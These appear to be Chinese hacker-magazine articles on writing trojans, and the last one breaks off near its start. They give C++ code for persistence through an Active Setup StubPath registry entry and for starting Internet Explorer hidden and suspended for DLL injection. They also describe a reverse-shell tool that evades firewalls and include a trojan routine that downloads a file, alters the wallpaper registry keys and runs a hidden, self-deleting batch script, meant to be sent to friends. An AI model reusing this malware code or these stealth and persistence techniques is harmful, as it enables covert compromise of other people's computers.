









本文所提到的 MFC.exe、App.exe 和 Dll.dll 的源代码我都已经打包提供了，大家可以仔细地研究一下，如果有什么不明白之处，可以到黑客防线的官方论坛与我一起讨论。



## 编程发现木马的ActiveX启动和注入IE的方法

文／荔明奇（xgym）

木马的启动方式有很多种，现在比较流行的就是注册为系统服务启动（只适合 Windows 2000 以上的系统），或者以驱动的方式启动。不过，最近以 ActiveX 方式启动又比较流行了，因为它适合 Windows 9x 或 2000 以上的机器，而且杀毒软件基本不会去监视这种启动方式，比较隐蔽。以 ActiveX 方式启动的木马国外的比较多，于是就到网上查找相关代码，发现了 RECUB。

其实 RECUB 是一个 Windows 平台的远程管理工具，其源代码已经为我们写得很清楚了，下面简要介绍一下 RECUB。它能对 Windows XP/2000/2003 的反向连接 Shell 进行 RC4 加密，可以作为 IE 浏览器的实例启动并注入代码来绕过防火墙，通过加密的 ICMP 请求来激活；没有监听端口；没有可见进程，以注入 Explorer.exe 的方式启动和退出；可以通过 ActiveX 启动，退出 Shell 的时候没有事件日志。

使用 nc 得到远程 Shell，EXE 文件只有 5.39KB 大小。怎么样，挺强的吧？下面我们就看一下它的部分代码，具体如下：

```cpp
// Active 启动原理与代码
// 初始化定义主键值
char regkey[MAX_PATH];
// 定义服务端当前路径
char pathexe[MAX_PATH];
// 子键的定义与初始化
HKEY childkey = 0;
// 获取我们运行的服务端的当前路径
GetModuleFileName(NULL, pathexe, MAX_PATH);
// 注册主键
wsprintf(regkey,"%s%s","Software\\Microsoft\\Active Setup\\Installed Components\\", REGKEY);
// 删除 HKEY_CURRENT_USER 相关的启动信息
RegDeleteKey(HKEY_CURRENT_USER, (LPCTSTR)regkey);
// 创建 ActiveX 启动信息，注册 HKEY_LOCAL_MACHINE
RegCreateKey(HKEY_LOCAL_MACHINE, (LPCTSTR)regkey, &childkey);
// 把当前路径复制给主键
RegSetValueEx(childkey, (LPCTSTR)"StubPath", 0, REG_SZ,
    (const BYTE*)(LPCTSTR)pathexe, lstrlen(pathexe));
// 关闭 HKEY 对象
RegCloseKey(childkey);
```

从以上的代码我们可以清晰地看到，ActiveX 启动其实非常简单，仅仅是在 HKEY_LOCAL_MACHINE 下的 `Software\\Microsoft\\Active Setup\\Installed Components\\` 中注册一条信息就可以了。这条信息的键类似 `{36f8ec70-c29a-11d1-b5c7-0000f8051515}` 即可。其实，我们可以随便地更改这些数字，只要不重复就可以了，如图1所示，而且我们还可以在这个键的下面新增一些子键和值（我们服务端的绝对地址）。



在上面的代码中有一个关键代码 `RegDeleteKey(HKEY_CURRENT_USER, (LPCTSTR)regkey)`，其作用是每次启动的时候清理 HKEY_CURRENT_USER 里面的信息。因为每当我们启动服务端的时候，系统都会自动在 HKEY_CURRENT_USER 中注册一些 HKEY_LOCAL_MACHINE 中的信息，我们必须在程序中删除这些，否则我们的服务端也只能有一次的启动机会。

根据上面的介绍，这里我就简单地写一段测试代码以供大家参考。启动 VC，新建一个工程名称为 test 的 Win32 Application，默认一个简单的 Win32 程序，并假定我们的服务端是在系统目录 system32 中的 exloroe.exe，其代码如下：

```cpp
#include "stdafx.h"
int APIENTRY WinMain(HINSTANCE hInstance,
    HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    // TODO: Place code here.
    HKEY hKey;
    TCHAR svExeFile[256] = "%SystemRoot%\\system32\\exloroe.exe";

    RegCreateKey(HKEY_LOCAL_MACHINE,
        "SOFTWARE\\Microsoft\\Active Setup\\Installed Components\\{H9112RB03-AB-B70-7-11d2-9CBD-0000FS7AH6-9E2121BHJLK}",
        &hKey);

    RegSetValue(hKey, NULL, REG_SZ, "系统设置", strlen("系统设置"));
    RegSetValueEx(hKey, "stubpath", 0, REG_EXPAND_SZ,
        (BYTE*)svExeFile, lstrlen(svExeFile));
    RegCloseKey(hKey);
    return 0;
}
```

这个最简单的程序就实现了在 HKEY_LOCAL_MACHINE 中注册 ActiveX 的过程。在程序退出的时候，我们可以编写下面的代码来清除 HKEY_CURRENT_USER 中的相关信息，以达到我们程序启动的目的。

```cpp
CreateThread(NULL, NULL, del, NULL, NULL, NULL);
// ActiveX——
DWORD WINAPI del(LPVOID lpParam)
{
    RegDeleteKey(HKEY_CURRENT_USER,
        "Software\\Microsoft\\Active Setup\\Installed Components\\{H9112RB03-AB-B70-7-11d2-9CBD-0000FS7AH6-9E2121BHJLK}");
    return TRUE;
}
```

下面我们再来看 DLL 注入 IE 的木马启动方式。网上的开源代码很多，不过 80% 的注入文件都是 explorer.exe，这个虽说比较简单，但很稳定。说它简单是因为它默认总是启动的，就不需要考虑它是否存在的问题。注入 IE 时，我们首先需要判断是否有 iexplore.exe 的进程，如果没有，我们就需要找到 iexplore.exe 所在的目录（一般都在 `C:\Program Files\Internet Explorer` 中），不过还是通过程序搜索最好，毕竟有好多网管把系统装在其他的盘符之中。

记得自己刚刚写 DLL 程序的时候，启动 IE 的方式使用下面的代码：

`WinExec("C:\\Program Files\\Internet Explorer\\iexplore.exe -nohome", SW_HIDE);`

也就是 IE 的空启动。用这种方法实现，虽然 IE 启动了，而且也很隐蔽，但启动时就占用 3000KB 的内存，这是我们所不能接受的，我们希望程序启动能尽可能少地占用内存。后来在国外的一个站点上，我发现可以用下面的一种方法来启动，占用内存极小，其代码如下：

```cpp
// 进程 information
PROCESS_INFORMATION pi = {0};
// 启动信息
STARTUPINFO si = {0};
// 存储信息
ZeroMemory(&si, sizeof(si));
// 信息的大小
si.cb = sizeof(si);
// 相关信息
si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
// 隐藏启动
si.wShowWindow = SW_HIDE;
// 隐藏
pi.hProcess = SW_HIDE;
// 启动的主函数
CreateProcess(
  NULL,
  "C:\\Program Files\\Internet Explorer\\iexplore.exe",
  NULL,
  NULL,
  0,
  CREATE_SUSPENDED,
  NULL,
  NULL,
  &si,
  &pi
);
```

最后我想说一下 VC 编译时优化处理问题。

- 一是使用 Release 版而不用 Debug 版编译，因为使用 Debug 版编译会生成许多垃圾信息。使用 Release 版编译的具体方法是在“build（编译）->Configuration（配置）”中，将“Win32 debug”移去，然后再次编译，就可以发现文件已经小了很多。
- 二是设置自己的入口点函数。C 或 C++ 程序默认的入口函数是 main（）或 WinMain（），但我们现在不用 Main 和 WinMain，因为这些都不是直接的入口点。编译器在产生 exe 文件的时候，将为我们生成真正的入口点。下面我们来定义自己的入口函数，具体方法是把 main 或 WinMain 改成其他的名字（如 MyFun），打开“Project（工程）->settings（设置）”选项，选中“link”选项卡，在“Category（分类）”下拉列表中选“output”，在“Entry-Point symbol（输入项）”中输入我们刚才定义的入口函数（MyFun），在源程序中也要做相应修改。
- 三是优化最小大小。
- 四是输出入口点改为 MyDll（随便改啦）。
- 五是连接 `./align:40`。

有了这些，基本上就能把我们的程序的体积减小很多，但每次这样去设置，在编程的时候会很不方便，我们干脆直接写一个头文件（my.h），直接调用就少了很多的麻烦。下面是 my.h 的代码：

```cpp
// Version 1.00
// xgym
// May 20th, 1999
// xgymcn@163.com
#ifdef NDEBUG
#pragma optimize("gsy", on)
#pragma comment(linker, "/RELEASE")
#ifdef _MERGE_RDATA_
#pragma comment(linker, "/merge:.rdata=.data")
#endif
#pragma comment(linker, "/merge:.text=.data")
#pragma comment(linker, "/merge:.reloc=.data")
#if _MSC_VER >= 1000
#endif
#endif
#pragma comment(linker, "/MERGE:.rdata=.data")
#pragma comment(linker, "/MERGE:.text=.data")
#pragma comment(lib, "msvcrt.lib")
#if (_MSC_VER < 1300)
#pragma comment(linker, "/IGNORE:4078")
#pragma comment(linker, "/OPT:NOWIN98")
#endif
#define WIN32_LEAN_AND_MEAN
```

有了这个头文件，我们在编写服务端的时候，为了减小体积，直接 `#include "my.h"` 就可以了，这样就少了很多的步骤，而效果却是一样的。



## 利用C++让木马也能修改桌面背景

文／风之雁



很多远程操作软件都带有一些恶作剧功能，但是很少有能够修改桌面背景的。其实实现这一功能也很简单，我们自己就可以做一个。

首先我们要了解系统是如何修改桌面背景的。一般来说，系统总是通过注册表来实现某些功能设置的。由于不同操作系统对注册表的修改可能不同，这里我们以 Windows XP 为例进行演示。为什么要选择 Windows XP 作为例子呢？一是因为使用的人多，二是修改起来也比其他系统要复杂，复杂的我们都会了，简单的还用说吗？我们先将桌面背景设置为 `G:\pb\pb_michael_1024x768.jpg` 这张图片，然后在注册表中搜索 `pb_michael_1024x768.jpg`，如图1所示，可以发现与 3 个键值有关，分别是：



图1

```text
HKEY_CURRENT_USER\Control Panel\Desktop\ConvertedWallpaper
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Desktop\BackgroundManager\OldConvertedWallpaper（部分Windows XP版本不存在该键值）
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Themes\LastTheme\Wallpaper
```

其中，LastTheme 是上一个主题，OldConvertedWallpaper 是上一张桌面，显然与现有桌面无关，可以排除，这样就剩下一个键值了。修改这个键值为一张新图片的地址，发现桌面并没有改变，重新启动计算机，结果桌面背景为空白，如图2所示。



图2

难道只修改注册表还不能改变桌面背景？重新打开注册表，再搜寻一番，发现 `HKEY_CURRENT_USER\Control Panel\Desktop\` 下多个键值都为 `C:\Documents and Settings\Administrator\Local Settings\Application Data\Microsoft\Wallpaper1.bmp`。打开该图片，显示的是之前 `pb_michael_1024x768.jpg` 的图片，原来每次设置桌面背景，系统都会将图片处理后复制到这里（为什么知道是被系统处理过的呢？因为文件大小和文件名都改变了）。

因此，只要我们将要设置成桌面的图片先设置成桌面，接着将 Wallpaper1.bmp 复制出来（这步很重要，系统只认识处理过的图片，否则就会出现上文中的空白桌面），放在 `D:\1.bmp`，然后将桌面背景换成其他图片，设置完成，原来的文件 `C:\Documents and Settings\Administrator\Local Settings\Application Data\Microsoft\Wallpaper1.bmp` 也会随之改变。现在只要将上文提到的那个键值修改为 `D:\1.bmp`，并将 `D:\1.bmp` 覆盖掉 `C:\Documents and Settings\Administrator\Local Settings\Application Data\Microsoft\Wallpaper1.bmp` 就可以了。不过这样修改不会马上生效，需要重启计算机，才能得到修改后的桌面。

有了思路，用代码就很容易实现了。我们首先用代码把所需要的文件下载下来。

    URLDownloadToFile(NULL,"http://website/1.bmp","C:\\progra~1\\Messenger\\1.bmp",0,NULL);

```c
void down() // 下载
{
    // 下载文件，1.bmp 是原先设置桌面时的 Wallpaper1.bmp
}
```

- progra~1 其实是 Program Files 的短文件名。由于当中有空格，系统无法识别长文件名；将长文件名转换为短文件名很简单，只要去掉空格，取前 6 位字母再加上“~1”，例如 Documents and Settings 短文件名是 docume~1，Local Settings 短文件名是 LocalS~1。

然后再修改注册表，具体代码如下。

```c
int getname()
// 获取当前用户名并修改墙纸，需要重启生效
{
    char szName[1024];
    unsigned long lens = sizeof(szName);
    GetUserName(szName, &lens);
    // 获取当前用户名
    static char subkey[] = "Control Panel\\Desktop";
    static char vname[] = "ConvertedWallpaper";
    static char exefile[] = "C:\\progra~1\\Messenger\\1.bmp";
    ULONG dType = REG_SZ, len = 0;
    ...
}
```

```c
... HKEY hKey;
RegOpenKeyEx(HKEY_CURRENT_USER, subkey, 0, KEY_SET_VALUE|KEY_QUERY_VALUE, &hKey);
// 打开注册表
RegSetValueEx(hKey, vname, 0, REG_SZ, (BYTE*)exefile, strlen(exefile)+1); // 加上
RegCloseKey(hKey); // 关闭注册表
FILE *f; // 复制一份图片，利用批处理复制
f = fopen("change.bat","w+");
fprintf(f,"copy C:\\progra~1\\Messenger\\1.bmp C:\\docume~1\\%s\\LocalS~1\\Applic~1\\Microsoft\\Wallpaper1.bmp",szName);
// 注意使用短文件名，由于用户名不同，Wallpaper1.bmp 地址也不同，所以要获取当前用户名
fprintf(f,"\n");
fprintf(f,"del change.bat"); // 自删除
fclose(f);
WinExec("change.bat",SW_HIDE);
return 0;
}
```

至此，修改桌面的功能就完成了。至于其他系统，大家可以参考这一方法来修改。比如在 Windows 2000 Profession 中，只要修改 `HKEY_CURRENT_USER\Control Panel\Desktop\Wallpaper`，不用再复制图片。新年快到了，如果我们将代码中提到的图片改成祝贺新年快乐的图片，再将程序发给朋友运行，当朋友再次启动计算机时，或许会获得一些意外的效果呢。

- 【本文涉及的代码（程序），请见随书光盘】

## 木马编程DIY

### 之系统服务



对系统服务的管理几乎是目前的木马必不可少的功能：比如神气儿、上兴远程控制等，都提供了此项服务。要是我们能给自己编写的木马也加上这个功能，看着也不赖哦。好啦，废话不多说，下面开始干活！我们的木马要实现的效果如图1和图2所示。

